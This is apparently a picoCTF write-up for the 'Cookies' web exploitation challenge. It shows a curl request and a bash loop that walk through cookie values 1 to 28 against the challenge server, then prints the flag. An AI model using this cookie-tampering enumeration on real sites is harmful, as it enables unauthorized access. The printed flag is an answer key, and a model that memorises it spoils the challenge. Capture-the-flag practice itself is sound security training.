 # Cookies

## Overview

Points: 40
Category: Web Exploitation

## Description

Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:21485/

## Hints

1. (None)


## Approach

Request with Cookie Name = 1

Output :- `I love chocolate chip cookies!`

we have to hit and triel name in cookies with numbers

```bash
curl 'http://mercury.picoctf.net:21485/check' \
  -H 'Proxy-Connection: keep-alive' \
  -H 'Cache-Control: max-age=0' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Referer: http://mercury.picoctf.net:21485/' \
  -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'Cookie: chocolate chip=snicker; name=2' \
  --compressed
```

```bash
# Final command used to view all answers
for i in $(seq 1 28); do \
curl 'http://mercury.picoctf.net:21485/check'   -H 'Proxy-Connection: keep-alive'   -H 'Cache-Control: max-age=0'   -H 'Upgrade-Insecure-Requests: 1'   -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36'   -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9'   -H 'Referer: http://mercury.picoctf.net:21485/'   -H 'Accept-Language: en-GB,en-US;q=0.9,en;q=0.8'   -H "Cookie: chocolate chip=snicker; name=$i"   --compressed | grep -E "flag|pico|cookies" ; done
```

## Flag

picoCTF{3v3ry1_l0v3s_c00k135_94190c8a}